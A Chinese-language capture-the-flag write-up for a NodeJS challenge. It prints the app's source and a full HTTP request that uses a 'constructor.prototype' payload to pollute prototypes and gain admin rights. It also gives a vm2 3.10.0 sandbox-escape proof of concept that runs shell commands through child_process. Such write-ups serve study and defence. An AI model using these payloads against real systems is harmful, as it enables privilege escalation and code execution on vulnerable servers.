




# NodeJS

题目给出了NodeJS相关源代码`app.js`:

```javascript
const express = require('express');
const path = require('path');
const session = require('express-session');
const { VM } = require('vm2'); 
const app = express();

app.use('/static', express.static(path.join(__dirname, 'public')));
app.use(express.json());

// Session 配置
app.use(session({
    secret: 'random',
    resave: false,
    saveUninitialized: false,
    cookie: { 
        maxAge: 3600000,  // 1小时
        httpOnly: true
    }
}));

const users = {};

function merge(target, source) {
    for (let key in source) {
        if (key === '__proto__') continue;  
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) target[key] = {};
            merge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

// 首页
app.get('/', (req, res) => {
    res.sendFile(path.join(__dirname, 'public', 'index.html'));
});

// 注册
app.post('/register', (req, res) => {
    const { username, password } = req.body;
    
    if (!username || !password) {
        return res.json({ error: '用户名和密码不能为空' });
    }
    
    if (users[username]) {
        return res.json({ error: '用户已存在' });
    }
    
    users[username] = { username, password };
    res.json({ message: '注册成功，请登录' });
});

// 登录
app.post('/login', (req, res) => {
    const { username, password } = req.body;
    const user = users[username];
    
    if (!user || user.password !== password) {
        return res.json({ error: '用户名或密码错误' });
    }
    
    req.session.user = { username: user.username };
    res.json({ 
        message: '登录成功', 
        user: { 
            username: user.username,
            isAdmin: user.isAdmin
        } 
    });
});

// 退出登录
app.post('/logout', (req, res) => {
    req.session.destroy((err) => {
        if (err) {
            return res.json({ error: '退出失败' });
        }
        res.json({ message: '已退出登录' });
    });
});

// 修改密码
app.post('/changepassword', (req, res) => {
    if (!req.session.user) return res.json({ error: '请先登录' });
    
    const username = req.session.user.username;
    const user = users[username];
    
    const { oldPassword, newPassword, confirmPassword } = req.body;
    
    // 验证旧密码
    if (user.password !== oldPassword) {
        return res.json({ error: '旧密码错误' });
    }
    
    // 验证新密码
    if (newPassword !== confirmPassword) {
        return res.json({ error: '两次密码不一致' });
    }
    
    merge(user, req.body);
    user.password = newPassword;
    
    res.json({ message: '密码修改成功' });
});

// 用户信息（检查登录状态）
app.get('/me', (req, res) => {
    if (!req.session.user) return res.json({ error: '请先登录' });
    
    const username = req.session.user.username;
    const user = users[username];
    
    res.json({ 
        username: user.username,
        isAdmin: user.isAdmin
    });
});

// 管理员面板
app.get('/admin', (req, res) => {
    if (!req.session.user) return res.json({ error: '请先登录' });
    
    const username = req.session.user.username;
    const user = users[username];
    
    if (user.isAdmin === true) {
        res.json({ 
            message: '欢迎管理员！',
        });
    } else {
        res.json({ error: '需要管理员权限' });
    }
});

app.post('/sandbox', async (req, res) => {
    if (!req.session.user) return res.json({ error: '请先登录' });
    
    const username = req.session.user.username;
    const user = users[username];
    
    if (user.isAdmin !== true) {
        return res.json({ error: '需要管理员权限' });
    }
    
    const { code } = req.body;
    if (!code) return res.json({ error: '请提供代码' });
    
    try {
        const sandboxResult = { value: null };
        
        const vm = new VM({
            timeout: 5000,
            sandbox: { __result: sandboxResult }
        });
        
        const result = vm.run(code);
        
        await new Promise(resolve => setTimeout(resolve, 500));
        
        res.json({ 
            result: result?.toString() || '执行成功',
            output: sandboxResult.value
        });
    } catch (error) {
        res.json({ error: error.message });
    }
});

app.listen(3000, () => {
    console.log('Server running on port 3000');
});

```

一眼看到存在nodejs的经典漏洞原型链污染函数：

```javascript
function merge(target, source) {
    for (let key in source) {
        if (key === '__proto__') continue;  
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) target[key] = {};
            merge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}
```

几乎没有做任何过滤，除了`__proto__`字符。

我们可以使用`"constructor":{"prototype":{}}`进行替换

```
POST /changepassword HTTP/1.1
Host: a84167e2-7fe2-4eeb-8101-a0de63bd612d.28.dart.ccsssc.com
Cookie: connect.sid=s%3AfcsPM9wfM0WXsPOtMc6rIjv5Xs6NNIU2.%2Bp0hgdF89a6g6E3%2FM4HemsUYAjdGJhcl3SrWUKgs2BI
Referer: http://a84167e2-7fe2-4eeb-8101-a0de63bd612d.28.dart.ccsssc.com/
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/147.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Accept: */*
Origin: http://a84167e2-7fe2-4eeb-8101-a0de63bd612d.28.dart.ccsssc.com
Accept-Encoding: gzip, deflate
Content-Length: 68

{"oldPassword":"test","newPassword":"test","confirmPassword":"test","constructor":{"prototype":{"isAdmin":true}}}
```



成功将`user`属性中的`isAdmin`值修改为`true`。



在`/sandbox`路由中存在`vm2`沙盒的命令执行

题目给出了package.json文件，其中vm2版本为`3.10.0`

```
{
  "name": "nodejs",
  "version": "1.0.0",
  "description": "nodejs",
  "main": "app.js",
  "scripts": {
    "start": "node app.js"
  },
  "dependencies": {
    "express": "^4.18.2",
    "express-session": "^1.17.3",
    "vm2": "3.10.0"
  }
}
```

通过查找相关CVE，得知在vm2 3.10.0版本中Promise.prototype.then和Promise.prototype.catch的回调函数清理机制可被绕过，而这一漏洞“会让攻击者得以突破沙箱限制，运行任意代码。

```javascript
const error = new Error();
error.name = Symbol();

const f = async () => error.stack;
const promise = f();

promise.catch(e => {
    const Error = e.constructor;
    const Function = Error.constructor;

    const f = new Function(
        "process.mainModule.require('child_process').execSync('echo HELLO WORLD!', { stdio: 'inherit' })"
    );

    f();
});
```

这里当时线下没有找到POC没打出来，本地搭建一个环境进行复现



成功逃逸沙盒并执行命令

